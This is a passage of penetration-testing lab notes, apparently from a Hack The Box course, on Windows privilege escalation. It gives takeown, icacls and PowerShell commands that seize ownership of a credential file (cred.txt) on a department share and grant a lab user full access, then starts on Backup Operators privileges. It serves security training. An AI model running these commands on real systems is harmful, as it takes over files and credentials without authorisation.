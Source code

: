 ```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

The file owner is hidden, back up until you can see an owner.

```
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Once the owner has been flagged, take the ownership of the file.

```
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

Now you should see the owner with the previous PowerShell command.

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

It's possible to update the file ACL if there are restrictions.

```
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

Now `htb-student` has full access for this file.

## Windows Group Privileges

### Windows Built-in Groups

* List of built-in groups : [link](https://ss64.com/nt/syntax-security\_groups.html)
* List of privileged accounts : [link](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory)

### Backup Operators

It grants `SeBackupPrivilege` and `SeRestorePrivileges` to its membership. This will let us copy a file from a folder, event if there is no ACE for us in the folder's ACL.

```
PS> whoami /groups
PS> whoami /priv
```

<figure><img src="../../../.gitbook/assets/groups.png" alt=""><figcaption></figcaption></figure>
